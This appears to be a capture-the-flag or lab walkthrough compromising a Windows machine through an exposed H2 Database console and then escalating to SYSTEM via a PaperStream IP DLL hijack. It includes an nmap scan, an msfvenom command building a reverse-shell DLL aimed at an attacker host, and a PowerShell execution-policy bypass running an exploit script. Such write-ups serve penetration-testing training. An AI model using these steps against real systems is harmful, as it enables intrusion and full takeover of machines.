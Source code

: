 
![](https://miro.medium.com/v2/resize:fit:400/0*s5RM47pWQThU4sa9.jpeg)

- Network scan

```c
PORT      STATE SERVICE       VERSION  
80/tcp    open  http          Microsoft IIS httpd 10.0  
| http-methods:   
|_  Potentially risky methods: TRACE  
|_http-server-header: Microsoft-IIS/10.0  
|_http-title: H2 Database Engine (redirect)  
135/tcp   open  msrpc         Microsoft Windows RPC  
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn  
445/tcp   open  microsoft-ds?  
5040/tcp  open  unknown  
8082/tcp  open  http          H2 database http console  
|_http-title: H2 Console  
9092/tcp  open  XmlIpcRegSvc?  
49664/tcp open  unknown  
49665/tcp open  unknown  
49666/tcp open  unknown  
49667/tcp open  unknown  
49668/tcp open  unknown  
49669/tcp open  unknown

```
- 8082 (H2)

![](https://miro.medium.com/v2/resize:fit:700/1*Cu8xGUv2okjvnu343SwnkA.png)

Search for a suitable exploit in the H2 database.


## Offensive Security's Exploit Database Archive

### H2 Database 1.4.199 - JNI Code Execution.. local exploit for Java platform

www.exploit-db.com



](https://www.exploit-db.com/exploits/49384?source=post_page-----5233e3d6f5e--------------------------------)

![](https://miro.medium.com/v2/resize:fit:700/1*PcVrwf4AqGEPGuAB_2iiZg.png)

When we open the file, we see the commands we need.

![](https://miro.medium.com/v2/resize:fit:700/1*1egXU9u1lSexWHjp4gp2zQ.png)

We enter one by one. As a result, we are successful.

![](https://miro.medium.com/v2/resize:fit:700/1*MPitfLJlgH5Rb36_-zYwQw.png)

- reverse

Since we can rce, let’s get reverse shell. Let’s load the payload we prepared for this into the system.

![](https://miro.medium.com/v2/resize:fit:700/1*Ca6c423dFs8KYfh3MScEFw.png)

Let’s run the file we uploaded.

![](https://miro.medium.com/v2/resize:fit:700/1*XWb0qf9OasdRL03KFriweA.png)

#### privesc

In the program list, we see a folder that is unfamiliar to us.

```c
C:\Program Files (x86)>dir  
dir  
 Volume in drive C has no label.  
 Volume Serial Number is AC2F-6399  
  
 Directory of C:\Program Files (x86)  
  
04/27/2020  08:01 PM    <DIR>          .  
04/27/2020  08:01 PM    <DIR>          ..  
04/27/2020  07:59 PM    <DIR>          Common Files  
04/27/2020  08:01 PM    <DIR>          fiScanner  
04/27/2020  07:59 PM    <DIR>          H2  
05/03/2022  05:22 PM    <DIR>          Internet Explorer  
03/18/2019  08:52 PM    <DIR>          Microsoft.NET  
04/27/2020  08:01 PM    <DIR>          PaperStream IP  
03/18/2019  10:20 PM    <DIR>          Windows Defender  
03/18/2019  08:52 PM    <DIR>          Windows Mail  
04/24/2020  08:50 AM    <DIR>          Windows Media Player  
03/18/2019  10:23 PM    <DIR>          Windows Multimedia Platform  
03/18/2019  09:02 PM    <DIR>          Windows NT  
03/18/2019  10:23 PM    <DIR>          Windows Photo Viewer  
03/18/2019  10:23 PM    <DIR>          Windows Portable Devices  
03/18/2019  08:52 PM    <DIR>          WindowsPowerShell  
               0 File(s)              0 bytes  
              16 Dir(s)   7,243,313,152 bytes free
```

When we investigate, we see that we can increase the power with this.

![](https://miro.medium.com/v2/resize:fit:700/1*jwX_akJ2xeE9jBAZ2vI7SQ.png)

Looking at the code, we will need the .dll file. Let’s prepare a malicious file for this

```c
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.xx.xx LPORT=139 -f dll > exploit.dll 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload  
[-] No arch selected, selecting arch: x86 from the payload  
No encoder specified, outputting raw payload  
Payload size: 324 bytes  
Final size of dll file: 8704 bytes
```
  


Change the direction from the content of the code

![](https://miro.medium.com/v2/resize:fit:700/1*lN2D5AfGVXKiznG2Htzejw.png)

Load the payloads to the target system…

![](https://miro.medium.com/v2/resize:fit:700/1*PQ3rMVlosecIE_csPkX5fg.png)

Solve the problem.

`C:\Program Files (x86)>set PATH=%SystemRoot%\system32;%SystemRoot%;`

![](https://miro.medium.com/v2/resize:fit:700/1*EvDTqzgYHz_MqBbrJuiG2w.png)

Open the listener and run our payload.

`C:\temp>C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -ep bypass C:\temp\49382.ps1`

![](https://miro.medium.com/v2/resize:fit:700/1*DA_D8accAXHHe0NMNQ1oGQ.png)

# _And now we are the System_

